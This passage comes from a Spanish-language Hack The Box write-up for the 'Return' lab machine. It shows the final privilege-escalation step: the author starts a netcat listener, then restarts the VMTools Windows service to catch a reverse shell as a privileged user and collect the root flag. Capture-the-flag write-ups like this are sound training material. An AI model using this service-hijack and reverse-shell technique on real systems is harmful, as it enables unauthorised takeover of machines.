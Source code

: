 <p align="justify"> 
Confirmamos la existencia de este servicio:
</p>

```
PS C:> services
```

<p align="center">
  <img src="https://github.com/Sh4dowCost/HTB-Write-Ups/assets/90486643/a10034da-5ca9-42d1-9d46-f9905603b142">
</p>

<p align="justify"> 
Antes de detener e iniciar el servicio, deberemos configurar netcat para escuchar en el puerto especificado:
</p>

```go
rlwrap nc -nvlp 443
```

<p align="justify"> 
Ahora una vez que el servicio se inicie, obtendremos una shell en netcat.
</p>

```powershell
PS C:> sc.exe stop VMTools
PS C:> sc.exe start VMTools
```

<p align="center">
  <img src="https://github.com/Sh4dowCost/HTB-Write-Ups/assets/90486643/5af0a15f-6952-44ca-9031-4a91ff00038a">
</p>

<p align="justify"> 
Para finalizar solo necesitamos encontrar nuestra flag de root. Es importante destacar que debemos realizar las acciones con rapidez, ya que el servicio se detendrá después de cierto tiempo y tendremos que reiniciar netcat junto con el servicio.
</p>

<p align="center">
  <img src="https://github.com/Sh4dowCost/HTB-Write-Ups/assets/90486643/9f325a18-63cb-4960-b5b7-b98be7ae2112">
</p>

> **RETURN - PWNED!**
